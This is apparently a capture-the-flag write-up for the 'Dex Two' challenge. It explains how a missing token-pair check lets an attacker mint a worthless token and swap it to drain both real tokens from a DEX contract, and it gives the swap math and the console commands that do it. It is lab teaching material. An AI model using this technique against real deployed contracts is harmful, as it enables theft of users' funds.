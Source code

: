 # Drain Token1 and Token2 from Dex

This challenge is very similar to previous challenge "DEX". A critical different is the checking function before swapping is gone.
```
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```
This means that we can call any token on the DEX to swap. So we can exploit this by minting our own useless token and use it to swap for token1 and token2.

Before start, we check the equation used to calculate swap amount:
```
return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
```
This could be summarized as:
```
Swap Amount = <AMOUNT_WE_SWAP> * <DEX_BALANCE_TOKEN_WE_WANT> / <DEX_BALANCE_TOKEN_WE_MINT>
```

Initially we would want to drain balance of token1, which is 100, assuming <DEX_BALANCE_TOKEN_WE_MINT> is 100 :
```
100 = <AMOUNT_WE_SWAP> * Dex_t1 / Dex_bad
100 = <AMOUNT_WE_SWAP> * 100 / (100)
100 = <AMOUNT_WE_SWAP>
```
We get the amount needed to swap for draining token 1 is 100.

On second swap, we want to drain token2 balance which is 100, <DEX_BALANCE_TOKEN_WE_MINT> is now 200 since we sent 100 on first swap:
```
100 = <AMOUNT_WE_SWAP> * Dex_t2 / Dex_bad
100 = <AMOUNT_WE_SWAP> * 100 / (200)
200 = <AMOUNT_WE_SWAP>
```

Initially DEX need to have 100 token we minted to swap and drain 100 token1, While token2 will need 200 minted token to swap and drain. So in summary, we will need to mint 400 token, 100 for DEX, 300 for us to swap.

Once we figured out the math, go back to browser's console terminal:
```
t1 = await contract.token1()
t2 = await contract.token2()
bad = "<YOUR_MINTED_TOKEN_ADDRESS>"
```
To mint the token refer "L23-Solution.sol". After minting, use the `transfer` function to send 100 token to DEX.

Next, we follow the step from the challenge "DEX" to `approve` token1, token2 and BAD (the token we minted).

Proceed to swap and drain token1 and token2:
```
contract.swap(bad, t1, 100)
contract.swap(bad, t2, 200)
```

Verify:
```
contract.balanceOf(t1, instance).then(v => v.toString())
contract.balanceOf(t2, instance).then(v => v.toString())
```
